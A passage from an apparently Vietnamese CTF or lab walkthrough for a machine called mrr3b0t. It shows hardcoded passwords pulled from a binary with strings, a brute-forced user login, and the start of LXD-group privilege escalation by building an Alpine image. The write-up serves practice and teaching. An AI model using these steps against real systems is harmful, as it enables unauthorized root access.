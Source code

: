 Thử strings ra xem có gì..

```shell
www-data@mrr3b0t:/var/www/bf$ strings buffer
/lib64/ld-linux-x86-64.so.2
libc.so.6
...
...
...
 Digite a senha:
MrR0b0t121
 Senha errada
 Senha Correta
Password@123
...
...
...
```

Có 1 chuỗi chứa từ khóa Password, khả năng đây là mật khẩu có thể dùng được. Nhưng vẫn chưa chắc chắn về điều này nên tôi cứng đầu bruteforce để tìm ra password cho thằng `exploiter`. Sau gần 3 ngày treo máy zui zui, kết quả tìm ra cũng chính là password mà mình nghi ngờ.

![exploiter password](https://ik.imagekit.io/dyl4n/posts/mrr3b0t/exploiter-password.PNG)

```shell
www-data@mrr3b0t:/var/www/bf$ su exploiter
Password: Password@123

exploiter@mrr3b0t:/var/www/bf$
```

### Root

```shell
exploiter@mrr3b0t:~$ id
uid=1000(exploiter) gid=1000(exploiter) groups=1000(exploiter),24(cdrom),30(dip),46(plugdev),111(lxd),118(lpadmin),119(sambashare)
```

Check id thấy được user này thuộc group 111(lxd), được dùng để tạo và quản lý các containers của Linux. Quá là may, mình có thể leo root nhờ thằng user thuộc lxd group này. Có rất nhiều bài viết nói về trick này rồi, nên mình sẽ không giải thích nhiều (Đọc thêm [tại đây](https://systemweakness.com/linux-privilege-escalation-with-lxd-group-66ea1ac5dbbd){:target="\_blank"})

**Step 1**: Tạo image trên máy local

Clone [saghul/lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder){:target="\_blank"}, sau đó chạy file `lxd-alpine-builder/build-alpine` để tạo một image mới.

```shell
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$git clone https://github.com/saghul/lxd-alpine-builder
...
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$cd lxd-alpine-builder
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$ sudo ./build-alpine
...
```
